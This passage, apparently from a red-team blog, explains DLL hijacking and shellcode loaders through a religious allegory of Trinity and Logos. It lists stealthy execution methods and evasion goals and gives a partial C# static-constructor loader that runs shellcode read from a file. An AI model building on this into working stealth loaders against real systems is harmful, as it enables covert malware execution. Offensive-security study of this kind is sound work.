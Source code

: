 - **The Father** reveals the broken trust.  
- **The Son** assumes the form of the trusted DLL.  
- **The Spirit** executes unseen, persisting until its purpose is revealed.  

We don’t enter to corrupt. We enter to **expose misplaced trust**.  

---

## IV. The Eternal Word: Payloads Built in Advance  

In some operations, we don’t wait for reconnaissance. We preemptively craft **modular loaders** — flexible, environment-agnostic, waiting for the right time to be revealed.  

- Export-neutral DLLs with no assumptions about environment  
- Modular payload handlers (read shellcode from external files)  
- Multiple execution methods (`CreateThread`, `APC`, `NtCreateThreadEx`)  
- Minimal artifacts for stealth  

This is like the **preexistent Logos**: the Word that was “in the beginning” (John 1:1), already prepared before entering history. Such loaders don’t always fit, but when they do, deployment is immediate.  

---

## V. Deployment: Two Natures in One Loader  

Once a viable path is identified, the task is to design the payload so that both “natures” are preserved:  

- **Human side**: Forward exports, maintain application stability  
- **Divine side**: Execute obfuscated shellcode without detection  

A simple proof of concept begins with a MessageBox injection — confirming that the system accepts your presence. From there, you refine toward obfuscated shellcode and stealthy execution. Below is a sample of .NET Assembly that was used to execute a MessageBox. 

```
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Text;
using System.Runtime.InteropServices;
using System.Windows.Forms;

namespace XXXXXX.Diagnostics.Audit
{
    public static partial class EventLogger
    {
        static EventLogger()
        {
            try
            {
                MessageBox.Show("Triggering shellcode from Shellcode.txt", "DEBUG");

                string basePath = "C:\\Users\\Users\\Desktop\\Payload\\";
                string filenamePath = Path.Combine(basePath, "Shellcode.txt");

                if (File.Exists(filenamePath))
                {
                    ExecuteShellcodeFromFile(filenamePath);
                }
                else
                {
                    MessageBox.Show("ips.txt not found!", "DEBUG");
                }
            }
```